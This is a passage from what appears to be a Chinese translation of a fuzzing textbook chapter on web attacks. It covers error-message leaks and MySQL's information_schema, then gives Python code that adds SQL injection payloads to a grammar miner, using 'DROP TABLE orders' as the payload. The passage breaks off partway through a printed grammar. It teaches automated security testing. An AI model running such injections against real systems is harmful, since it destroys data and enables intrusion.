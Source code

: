 避免因故障而导致信息泄漏的最佳方法当然是首先不要失败。 但是，如果失败了，攻击者将很难在攻击和失败之间建立联系。 不要产生“内部错误”消息（当然也不要产生带有内部信息的消息）； 不会变得迟钝 只需返回首页并要求用户提供正确的数据即可。 再有[练习](#Exercises)提供了一些有关如何修复服务器的说明。

如果您不仅可以操纵服务器来更改信息，还可以操纵*检索*信息，则可以通过访问特殊的*表*（也称为*数据字典）来了解表名和结构。* ），其中数据库服务器存储其元数据。 例如，在MySQL服务器中，特殊表`information_schema`保存元数据，例如数据库和表的名称，列的数据类型或访问权限。

## 全自动Web攻击

到目前为止，我们已经使用手动编写的顺序语法演示了上述攻击。 但是，这些攻击也适用于生成的语法。 我们通过添加一些常见的SQL注入攻击来扩展`HTMLGrammarMiner`：

```py
class SQLInjectionGrammarMiner(HTMLGrammarMiner):
    ATTACKS = [
        "<string>' <sql-values>); <sql-payload>; <sql-comment>",
        "<string>' <sql-comment>",
        "' OR 1=1<sql-comment>'",
        "<number> OR 1=1",
    ]

    def __init__(self, html_text, sql_payload):
        super().__init__(html_text)

        self.QUERY_GRAMMAR = extend_grammar(self.QUERY_GRAMMAR, {
            "<text>": ["<string>", "<sql-injection-attack>"],
            "<number>": ["<digits>", "<sql-injection-attack>"],
            "<checkbox>": ["<_checkbox>", "<sql-injection-attack>"],
            "<email>": ["<_email>", "<sql-injection-attack>"],
            "<sql-injection-attack>": [
                cgi_encode(attack, "<->") for attack in self.ATTACKS
            ],
            "<sql-values>": ["", cgi_encode("<sql-values>, '<string>'", "<->")],
            "<sql-payload>": [cgi_encode(sql_payload)],
            "<sql-comment>": ["--", "#"],
        })

```

```py
html_miner = SQLInjectionGrammarMiner(
    html_text, sql_payload="DROP TABLE orders")

```

```py
grammar = html_miner.mine_grammar()
grammar

```

```py
{'<start>': ['<action>?<query>'],
 '<string>': ['<letter>', '<letter><string>'],
 '<letter>': ['<plus>', '<percent>', '<other>'],
 '<plus>': ['+'],
 '<percent>': ['%<hexdigit-1><hexdigit>'],
 '<hexdigit>': ['0',
  '1',
  '2',
  '3',
  '4',
  '5',
  '6',
  '7',
  '8',
  '9',
  'a',
  'b',
```